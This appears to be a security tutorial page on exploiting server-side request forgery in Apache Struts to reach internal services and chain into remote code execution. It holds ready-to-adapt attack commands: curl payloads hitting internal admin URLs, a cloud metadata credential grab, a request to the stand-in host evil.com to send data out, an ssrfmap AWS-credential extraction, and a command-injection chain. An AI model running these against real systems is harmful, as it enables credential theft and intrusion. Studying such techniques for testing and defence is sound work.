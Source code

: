 ```yaml
---
title: 'Exploiting Apache Struts: SSRF and RCE Techniques'
description: Learn how to exploit Apache Struts using SSRF to achieve RCE and interact
  with internal services.
keywords:
- Apache Struts
- SSRF
- Remote Code Execution
- RCE
- Exploit Techniques
- Web Application Security
- HTTP protocol
- Struts Vulnerability
- Internal Service Interaction
---
```


# Apache Struts

## Context

This article aims to demonstrate how to exploit Apache Struts vulnerabilities using Server-Side Request Forgery (SSRF) to achieve remote code execution or interact with sensitive services. The reader is expected to have a good understanding of HTTP protocol mechanics, general web server architecture, and strategy for SSRF exploitation.

## Theory

### Apache Struts SSRF Attack Surface

Apache Struts is a popular Java-based web application framework that, under certain conditions, is susceptible to SSRF. This vulnerability typically occurs when unsanitized user input is used to construct backend HTTP requests, leading to potential exploitation. Typically, susceptible areas include Struts actions or plugins that fetch remote resources based on user-controlled parameters, allowing an attacker to perform SSRF.

### Remote Code Execution via SSRF in Struts

Exploiting SSRF in Apache Struts can lead to remote code execution (RCE) or unauthorized interactions with sensitive systems. An attacker can supply a crafted URL to a vulnerable Struts endpoint, causing the server to initiate an HTTP request to an internal or external service. By directing this request to an internal service that's vulnerable to command injection, an attacker might chain SSRF to achieve RCE. Additionally, the lack of proper request filtering could allow accessing internal-only services or critical metadata endpoints.

### Exploitation Techniques for Struts SSRF

Several exploitation techniques exist for leveraging SSRF in Struts. For example, some Struts plugins, like URLReader, may indiscriminately fetch attacker-supplied URLs. Attackers can use filter bypass techniques, such as IP address obfuscation or encoding (127.0.0.1, localhost, or hex-encoded values), to evade basic security filters intended to block direct local access.

## Practice

### Manual SSRF Exploitation in Apache Struts

- Use `curl` to send a crafted request to a vulnerable Struts endpoint that points to an internal URL:

    ```bash
    curl -X POST 'http://target/struts-app/action' -d 'url=http://127.0.0.1:8080/admin'
    ```

    This exploits the backend request functionality to interact with an internal administration interface.

- Target cloud metadata service to retrieve sensitive credentials:

    ```http
    url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
    ```

- Redirect backend requests to an attacker-controlled server to exfiltrate data:

    ```bash
    curl -X POST 'http://target/struts-app/action' -d 'url=http://evil.com/malicious'
    ```

These actions may allow the enumeration and interaction with internal services that are accessible from the Struts server.

### Automated SSRF Exploitation with SSRFmap

- Automate the process of delivering SSRF payloads and targeting cloud credentials using `ssrfmap`:

    ```bash
    ssrfmap -r 'http://target/struts-app/action?url=FUZZ' -p 'FUZZ' --data 'url=FUZZ' --exploit aws-credentials
    ```

This command attempts to extract sensitive data, such as AWS credentials, leveraging SSRF within the Struts framework.

### Chaining SSRF to RCE via Internal Service

- Execute an SSRF attack targeting an internal admin interface with command injection:

    ```bash
    curl -X POST 'http://target/struts-app/action' -d 'url=http://127.0.0.1:8080/vulnerable-admin?cmd=whoami'
    ```

- Observe the output:

    ```
    root
    ```

This technique demonstrates how SSRF can be used to achieve RCE on internal systems by chaining it with command injection.

## Tools

- **curl**
- **ssrfmap**